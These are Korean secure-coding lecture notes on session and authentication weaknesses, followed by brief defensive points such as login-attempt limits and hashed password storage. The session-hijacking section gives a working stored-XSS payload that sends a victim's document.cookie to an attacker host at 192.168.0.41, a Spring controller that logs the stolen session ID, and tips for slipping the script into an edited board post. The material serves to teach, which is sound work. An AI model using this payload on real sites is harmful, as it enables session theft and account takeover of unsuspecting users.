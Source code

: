 # 세션 및 인증 관리 취약



p.232

## 세션 관리



#### 세션 하이재킹

1.이해커가 ASP게시판에 다음과 같은 글을 올려 놓는다		

제목:공짜로 아이템 줍니다

```
<div id='img'></div>	<script>document.getElementById("img").innerHTML="<img src='http://192.168.0.41:8080/openeg/test/a.do?	sessionid="+document.cookie+"' />";</script>
```

(일반적인 내용으로 글을 먼저 등록한 뒤 수정시에 위 내용을 넣는다)

2.이해커는 자신의 서버 프로그램(TestController.java)에 다음과 같이 작성해 놓는다.

@RequestMapping(value="/test/a.do")	
@ResponseBody	
public void testSecureCookie2(HttpServletRequest request, HttpServletResponse response) {		
String clientSessionId=request.getParameter("sessionid");		
System.out.println("Hacked clientSessionId:"+clientSessionId);		try {			File imgFile=new File("C:\\SecureCoding\\workspace\\.metadata\\.plugins\\org.eclipse.wst.server.core\\tmp1\\wtpwebapps\\openeg\\img\\sorry.png");			FileInputStream in=new FileInputStream(imgFile);			ByteArrayOutputStream bs=new ByteArrayOutputStream();			byte[] buffer=new byte[1024];			int readlength=0;			while((readlength=in.read(buffer)) != -1){				bs.write(buffer,0,readlength);			}			byte[] imgbuf=null;			imgbuf=bs.toByteArray();			bs.close();			in.close();						int length=imgbuf.length;			ServletOutputStream out=response.getOutputStream();			out.write(imgbuf,0,length);			out.close();		}catch(Exception e){			e.printStackTrace();		}	} 
3.한희생군이 ASP게시판 사이트(게임 사이트라 가정)를 이용하려 접속한다.
4.한초딩군이 이 글을 클릭하는 순간 자신의 세션id가 이해커에게 넘어간다. (제대로 되지 않을 때에는 브라우저 보안 수준을 내린다)





#### 세션관리 취약점

발생원인 : 추측이 가능한 세션 ID를 사용



p.240

## 인증 관리

로그인 횟수 제한

비밀번호 암호화 저장

비밀번호 확인시 복호화 하지 않고 암호화 해서 비교

아이디와 비밀번호 길이 제한

아이디 특수문자 제한



p.241

#### 패스워드 정책